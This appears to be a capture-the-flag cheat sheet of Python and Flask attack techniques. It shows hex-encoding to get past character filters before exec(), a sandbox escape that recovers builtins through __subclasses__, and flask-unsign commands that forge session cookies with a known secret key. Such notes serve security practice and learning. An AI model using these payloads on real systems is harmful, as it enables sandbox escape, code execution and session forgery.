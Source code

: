 # File template
```python
#!/usr/bin/env python3

def main():
    # CODE

if __name__ == "__main__":
    main()
```

# Characters not allowed
Python commands can be run in hex form:
```python
string = 'command to be executed'
chars_not_allowed = '[]{}.1'
encoded = ['\\x' + x.encode('hex') for x in chars_not_allowed]
for i in range(len(encoded)):
    string = string.replace(chars_not_allowed[i], encoded[i])
exec(string)
```
Note: The transitions back only happen when the hex is in a string! You might want to escape `'` and `"` in the string!

Note: Try adding more `\\`'s if it doesn't work (`\\`, `\\\\`, `\\\\\\\\`)

# Recovering builtins
Whenever you're in a situation where `{'__builtins__': None}`, the builtins can be recovered.

`s = "[c for c in ().__class__.__base__.__subclasses__() if c.__name__ == 'catch_warnings'][0]()._module.__builtins__['FUNCTIONNAME'](ARGUMENTS)"; exec(s, {'builtins': None})`

[More info](https://nedbatchelder.com/blog/201206/eval_really_is_dangerous.html)

# Flask
## Crafting sessions tokens
When the SECRET_KEY is given, these tokens can be maliciously crafted.

The tool [flask-unsign](https://github.com/Paradoxis/Flask-Unsign) provides us many useful functions.

Crafting: `flask-unsign --legacy --sign --cookie '{"key":val}' --secret 'SECRET_KEY'`

They can also be decoded: `flask-unsign --decode --cookie 'cookie_val'`
